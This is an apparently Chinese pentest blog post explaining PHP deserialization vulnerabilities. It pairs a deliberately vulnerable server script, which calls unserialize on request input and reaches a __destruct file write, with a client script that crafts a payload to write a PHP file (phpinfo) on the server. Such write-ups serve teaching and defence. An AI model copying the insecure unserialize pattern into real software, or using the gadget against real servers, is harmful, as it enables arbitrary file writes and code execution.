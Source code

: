 +++
date = "2016-07-25T23:32:52+08:00"
description = ""
draft = false
tags = ["反序列化"]
title = "PHP反序列化漏洞"
topics = ["Pentest", "PHP"]

+++

## 这里是正文

### 0x00 关于反序列化漏洞
> 序列化：使用函数serialize()可将实例序列化为字符串  
反序列化：使用函数unserialize()可将序列化的字符串还原  
若服务端有如下代码：
```php
<?php
    class foo{
        public $file = "test.txt";
        public $data = "123456";

        function __destruct(){
            file_put_contents($this->file,$this->data);
        }
    }

    $d = $_REQUEST['str'];
    var_dump($d);
    echo "<br />";
    $tc = unserialize(base64_decode($d));
    var_dump($tc);
?>
```
客户端可构造如下代码生成序列化后的字符串提交给服务端，  
服务端就会生成文件xx.php，内容为<b><?php phpinfo(); ?></b>：
```php
<?php
    class foo {
        public $ﬁle = "test.txt";
        public $data = "123456";
        
        function __destruct() {
            ﬁle_put_contents($this->ﬁle, $this->data);
        }
    }

    $f = new foo();
    $f->ﬁle = "xx.php";
    $f->data = "<?php phpinfo(); ?>";
    echo base64_encode(serialize($f));
?>
```